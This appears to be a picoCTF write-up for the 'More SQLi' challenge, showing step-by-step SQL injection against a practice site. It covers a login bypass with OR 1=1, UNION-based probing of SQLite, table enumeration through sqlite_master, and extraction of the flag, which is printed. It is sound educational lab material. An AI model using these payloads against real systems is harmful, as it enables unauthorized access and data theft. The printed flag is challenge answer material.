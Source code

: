 # More SQLi

Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:62448/).

-----

Opening the website, we are presented with a login form:

![[picoctf/images/Pasted image 20250225121922.png]]

When we fail to login, we are returned with the query used:

```
username: test
password: test
SQL query: SELECT id FROM users WHERE password = 'test' AND username = 'test'
```

We can therefore manipulate the query and perform SQLi:

```
test' OR 1=1 -- -
```

This results in a successful login which redirects us to the following search page:

![[picoctf/images/Pasted image 20250225122032.png]]

Testing a `UNION` works:

```
1' UNION SELECT 1,2,3 -- -
```

![[picoctf/images/Pasted image 20250225122502.png]]

We can check the version of the database:

```
1' UNION SELECT 1, sqlite_version(), 3 -- -
```

![[picoctf/images/Pasted image 20250225122624.png]]

As we have confirmed it is using SQLite, we can list all the tables from `sqlite_master`:

```
1' UNION SELECT name, sql, null from sqlite_master -- -
```

![[picoctf/images/Pasted image 20250225122723.png]]

We can therefore retrieve the flag from `more_tables`:

```
1' UNION SELECT flag, null, null from more_table -- 
```

![[picoctf/images/Pasted image 20250225122955.png]]

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```